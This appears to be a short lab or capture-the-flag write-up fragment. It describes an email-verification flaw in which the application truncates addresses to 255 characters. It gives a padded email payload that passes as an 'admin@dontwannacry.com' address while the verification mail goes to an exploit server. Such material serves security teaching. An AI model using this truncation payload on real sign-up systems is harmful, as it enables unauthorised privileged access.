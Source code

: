 Only the first 255 chars are used for the application and the mail domain verification, but the whole string for sending the verification mail.
Therefore using the folling mail works

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAadmin@dontwannacry.com.exploit-acee1f571fc4b07dc0370f54016c0090
```
